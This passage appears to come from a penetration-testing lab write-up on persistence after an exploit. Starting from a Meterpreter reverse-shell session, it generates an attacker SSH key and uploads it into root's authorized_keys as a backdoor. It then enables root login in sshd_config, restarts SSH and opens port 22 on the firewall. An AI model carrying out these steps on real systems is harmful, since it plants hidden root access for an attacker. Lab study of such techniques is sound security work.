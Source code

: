 In the attacker machine you will see the meterpreter session open with the reverse shell:

![[Pasted image 20250215104444.png]]

### 2.3.3. Generate the SSH Key
In the attacker machine, we generate a SSH Key:

```
mkdir ssh
ssh-keygen -t rsa -b 4096 -f ~/.ssh/persist_key
```

![[Pasted image 20250215111433.png]]
This creates:
- Private Key: ~/.ssh/persist_key (Keep this safe! It's the attacker backdoor.)
- Public Key: ~/.ssh/persist_key.pub (To inject into the target.)

![[Pasted image 20250215111502.png]]

### 2.3.4. Upload the public SSH Key to the target machine

Transfer the public key to the target (placed in root to maintain root access):

```
upload persist_key.pub /root/.ssh/authorized_keys
```

![[Pasted image 20250215111820.png]]

### 2.3.5. SSH checks in the target machine

Ensure root login via SSH is enabled in `/etc/ssh/sshd_config`:
```
PermitRootLogin yes
```

Restart SSH in the target machine:
```
sudo /etc/init.d/ssh restart
```

![[Pasted image 20250215113357.png]]

Check the state of the SSH port (22) from the attacker machine:
![[Pasted image 20250215115813.png]]

In this case, the port is not open. Enable it from the target machine:
```
sudo ufw allow 22
```

Verify that it is open:
![[Pasted image 20250215121301.png]]
### 2.3.6. SSH Connection
